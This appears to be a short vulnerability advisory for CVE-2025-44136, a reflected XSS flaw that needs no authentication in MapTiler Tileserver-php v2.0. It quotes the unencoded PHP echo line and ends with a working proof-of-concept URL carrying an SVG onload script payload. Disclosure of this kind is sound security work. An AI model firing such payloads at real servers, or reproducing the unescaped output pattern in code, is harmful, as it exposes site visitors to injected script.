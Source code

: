 # CVE-2025-44136 
Unauthenticated XSS in MapTiler Tileserver-php v2.0.

## Description
MapTiler Tileserver-php v2.0 is vulnerable to Cross Site Scripting
(XSS). The GET parameter "layer" is reflected in an error message
without html encoding. This leads to XSS and allows an unauthenticated
attacker to execute arbitrary HTML or JavaScript code on a victim's
browser.

https://github.com/maptiler/tileserver-php/blob/d0fdeaec69688dc500b652a23669d724d7d53df2/tileserver.php#L409
```
 echo 'Server: Unknown or not specified dataset "' . $tileset . '"';
```
## PoC

http://host/tileserver.php/wmts/x/1/1/asd?Request=x&layer=%3csvg+onload=alert(document.domain)%3e

